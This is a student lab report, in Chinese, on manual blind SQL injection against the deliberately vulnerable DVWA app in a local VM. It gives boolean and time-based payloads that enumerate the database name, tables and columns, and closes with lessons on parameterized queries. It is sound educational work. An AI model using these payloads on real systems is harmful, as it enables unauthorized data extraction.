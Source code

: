 # 《软件安全》实验报告

姓名：许洋   学号：2313721  班级：1070

## **实验名称：**

SQL盲注

##  **实验要求：**

基于DVWA里的SQL盲注案例，实施手工盲注，参考课本，撰写实验报告。

## **实验过程：**

### 环境配置

首先，我们从工具包中提取软件。然后将其解压，在`VM`虚拟机中打开即可。我们输入账号`root`和密码`owaspbwa`，输入命令行`ifconfig`，可以看到对应的网址，我们在自己的电脑上输入对应的网址，就可以进入系统了。![20250529-104634.504-9](D:\许洋计算机科学与技术\软件安全\作业\实验12\实验12\20250529-104634.504-9.jpg)

我们在浏览器中输入对应的网址：`192.168.19.133`，就可以进入到对应的页面了！![20250529-104634.504-18](D:\许洋计算机科学与技术\软件安全\作业\实验12\实验12\20250529-104634.504-18.jpg)

然后我们进行登录，选择`DVWA`（`Damn Vulnerable Web Application`）即可。账号和密码均为`admin`。![20250529-104634.504-6](D:\许洋计算机科学与技术\软件安全\作业\实验12\实验12\20250529-104634.504-6.jpg)

登录完之后进入到以下界面：![20250529-104634.504-5](D:\许洋计算机科学与技术\软件安全\作业\实验12\实验12\20250529-104634.504-5.jpg)

在左边选择`DVWA Security`，将等级设置为`low`。![20250529-104634.504-11](D:\许洋计算机科学与技术\软件安全\作业\实验12\实验12\20250529-104634.504-11.jpg)

### 基于布尔SQL盲注

布尔盲注：布尔盲注就是通过判断语句来猜解，如果判断条件正确则页面显示正常，否则报错。

#### 1. 判断是否存在注入，注入是字符型还是数字型

在这一部分，需要构造输入的指令判断注入类型，利用了下面几个语句：

输入 1：![20250529-104634.504-15](D:\许洋计算机科学与技术\软件安全\作业\实验12\实验12\20250529-104634.504-15.jpg)

结果：显示用户存在

输入 1' and 1=1 #![20250529-104634.504-17](D:\许洋计算机科学与技术\软件安全\作业\实验12\实验12\20250529-104634.504-17.jpg)

单引号为了闭合原来 SQL 语句中的第一个单引号，后面的#为了闭合后面的单引号。

结果：显示存在

输入 1' and 1=2 #![20250529-104634.504-16](D:\许洋计算机科学与技术\软件安全\作业\实验12\实验12\20250529-104634.504-16.jpg)

单引号和#的作用与上面一样。

结果：没有输出提示，说明不存在

从上面三个情景看出，当输入为字符串时，先用单引号结束原SQL查询语句，紧接着跟着and之后的语句，表示并集关系。当and之后的语句为false时，结果显示不存在；当and后为true，显示存在，说明明存在字符型的 SQL 盲注。

#### 2.  猜解当前数据库名

##### 2.1  猜解数据库名的长度

使用命令  `1' and length(database())=xxx #`

将xxx从1开始递增去尝试，直到显示存在，说明数据库名的长度就是当前xxx的值

当尝试到4的时候，有显示，说明数据库名长度为4。![20250529-104634.504-1](D:\许洋计算机科学与技术\软件安全\作业\实验12\实验12\20250529-104634.504-1.jpg)

##### 2.2   挨个猜解字符

由于我们只能通过“询问问题”，得到“是”或“不是”的回答，因此，在获取数据库名的时候，可以采用二分法提高效率：

```
 1' and ascii(substr(databse(),1,1))>97 #
 1' and ascii(substr(databse(),1,1))<122 #
 1' and ascii(substr(databse(),1,1))<109 #
 1' and ascii(substr(databse(),1,1))<103 #
```

结果显示存在，例如：![20250529-104634.504-2](D:\许洋计算机科学与技术\软件安全\作业\实验12\实验12\20250529-104634.504-2.jpg)

![20250529-104634.504-12](D:\许洋计算机科学与技术\软件安全\作业\实验12\实验12\20250529-104634.504-12.jpg)

![20250529-104634.504-13](D:\许洋计算机科学与技术\软件安全\作业\实验12\实验12\20250529-104634.504-13.jpg)

![20250529-104634.504-14](D:\许洋计算机科学与技术\软件安全\作业\实验12\实验12\20250529-104634.504-14.jpg)

直到输入`1' and ascii(substr(databse(),1,1))<100 #`我们发现没有显示，说明数据库的名称第一个字母的ascii码不小于100。我们尝试100到103的值。![20250529-104634.504-8](D:\许洋计算机科学与技术\软件安全\作业\实验12\实验12\20250529-104634.504-8.jpg)

出现输出，我们得到第一个字母的ascii码值，进一步验证一下发现确实是d。![20250529-104634.504-10](D:\许洋计算机科学与技术\软件安全\作业\实验12\实验12\20250529-104634.504-10.jpg)

之后重复这个操作得到完整的名称dvwa

#### 3.  **猜解数据库中的表名** 

##### 3.1	猜解数据库中表的数量

使用语句`1' and (select count (table_name) from information_schema.tables where table_schema=database())=xxx #`，不断从1递增遍历xxx的值，直到结果显示存在，说明此时的xxx就是表的数量，我们遍历到2的时候有结果，说明共有两个表![20250529-104634.504-4](D:\许洋计算机科学与技术\软件安全\作业\实验12\实验12\20250529-104634.504-4.jpg)

##### 3.2	猜解表名的长度

使用语句`1' and length(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1))=xxx #`，我们同样不断从1递增遍历xxx的值，直到结果显示存在，说明此时的xxx就是表名长度![20250529-104634.504-20](D:\许洋计算机科学与技术\软件安全\作业\实验12\实验12\20250529-104634.504-20.jpg)

##### 3.3	二分法猜测表名

与猜解数据库名相同，采用二分法，输入如下代码：

```
1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>97 # 显示存在

1' and ascii(substr((select table_name from information_schema.tables where 
table_schema=database() limit 0,1),1,1))<122 # 显示存在

1' and ascii(substr((select table_name from information_schema.tables where 
table_schema=database() limit 0,1),1,1))<109 # 显示存在

1' and ascii(substr((select table_name from information_schema.tables where 
table_schema=database() limit 0,1),1,1))<103 # 显示不存在

1' and ascii(substr((select table_name from information_schema.tables where 
table_schema=database() limit 0,1),1,1))>103 # 显示不存在
```

重复二分法可得两个表名为  `guestbook`  和  `users`  

#### 4.  猜解表中的字段名

##### 4.1	猜解表中字段的数量

遍历下面的代码发现，当遍历到6的时候，显示存在，其他都显示不存在，说明 users 表有 6 个字段。

```
1’ and (select count(column_name) from information_schema.columns where table_name= ’users’)=6 
```

##### 4.2	猜解字段名长度

遍历到7的时候，显示存在，其他都显示不存在，说明字段名长度为7。

```
1’ and length(substr((select column_name from information_schema.columns where table_name= ’users’ limit 0,1),1))=7 
```

### 基于时间的SQL盲注

基于时间：在传入的语句设置条件延迟，若满足条件则会产生延迟。我们则根据执行这些语句时是否延迟来判断传入语句的正确性进行猜解。

我们尝试用这种方法猜解当前数据库名字长度：输入`1’ and if(length(database())=1,sleep(5),1)`时，没有明显延迟，而输入`1’ and if(length(database())=4,sleep(5),1) `时，产生了明显延迟。

![20250529-104634.504-3](D:\许洋计算机科学与技术\软件安全\作业\实验12\实验12\20250529-104634.504-3.jpg)说明数据库名字长度为4。

## **心得体会：**

## **心得体会：**

通过本次实验，我掌握了SQL盲注的核心原理与手工实现技巧，深刻认识到数据与代码混淆的风险。

学会了通过布尔逻辑（如 `1' AND 1=1#`）和时间延迟（如 `SLEEP(5)`）逐步猜解数据库名、表名及字段信息，并体会到二分法爆破字符的效率优势。

实验也让我意识到开发中必须严格使用参数化查询、过滤输入，并限制数据库权限，才能有效防御此类攻击。
